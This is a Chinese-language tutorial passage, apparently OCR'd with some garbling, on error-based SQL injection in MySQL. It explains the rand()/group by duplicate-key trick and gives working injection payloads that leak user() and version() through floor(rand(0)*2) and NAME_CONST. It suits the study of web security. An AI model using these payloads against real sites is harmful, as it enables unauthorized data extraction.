 <hr/>
<h4>rand()：</h4>
生成一个0～1之间的随机浮点数
生成[ 0 , 1 ) [0,1)[0,1)之间的随机数,可以指定参数作为种子
可以通过线性运算扩大值域,比如2 ∗ r a n d ( ) 2*rand()2∗rand()就生成了[ 0 , 2 ) [0,2)[0,2)上的随机数


<hr/>
<h4>count(*)：</h4>
统计行数、某表下总共记录条数
count ( ∗ ) 搭配group by查询

<hr/>


<h4>group by x: </h4>
**作用：**
按x规则进行分组
------
**报错原理：**
利用rand()函数与group()函数的相互冲突
group by与rand()使用时，如果临时表中没有该主键，则在插入前会再计算一次<br/> rand()，然后再由group by将计算出来的主键直接插入到临时表格中，导致主键重复报错




<hr/>
<h4>floor(x)：</h4>
**作用：**
对参数x向下取整
------
**语句：**
and (select 1 from (select count(*),concat(( **payload**),floor (rand(0)*2))x from information_schema.tables group by x)a)
------
****注入语句：****
**id=1 and (select 1 from (select count(**),concat(user(),floor(rand(0)**2))x from information_schema.tables group by x)a)**
需要注意的是该语句将 **输出字符长度限制为64个字符**


#### rand()：

---


#### group by x: 

---


> 
<h3>2.5、函数特性报错</h3>
<h4>列名重复</h4>
**报错：**
mysql列名重复会报错
------
**利用：**
name_const来制造一个列
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;


> 
<h3>2.6、参数类型</h3>
<h4>几何函数（数字）</h4>
geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring()等
不满足可能会报错。php版本不同，可能会会有不同的结果


报错，那不是轻轻松松报错，哈哈哈
